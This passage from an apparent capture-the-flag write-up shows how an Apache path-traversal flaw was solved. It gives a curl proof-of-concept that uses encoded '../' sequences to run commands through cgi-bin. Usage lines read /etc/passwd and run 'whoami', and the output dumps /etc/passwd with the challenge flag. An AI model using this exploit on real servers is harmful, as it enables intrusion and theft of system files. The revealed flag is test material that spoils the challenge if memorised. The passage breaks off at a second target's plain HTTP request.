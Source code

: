 ```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami

```

We can use the script to exfiltrate `/etc/passwd`:

```console
$ echo http://13.114.183.54:8081/ > targets.txt
$ bash apache.sh targets.txt /etc/passwd
http://13.114.183.54:8081/
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flag:x:1000:1000:flag{N_oht_jnf_perngrq}:/home/flag:/bin/sh
```

**Flag:** `flag{N_oht_jnf_perngrq}`

### Known Vulnerability 2

We were given the target of `http://13.114.183.54:8080`.

The following request was sent to `http://13.114.183.54:8080`:

```
GET /index.action HTTP/1.1
Host: 13.114.183.54:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

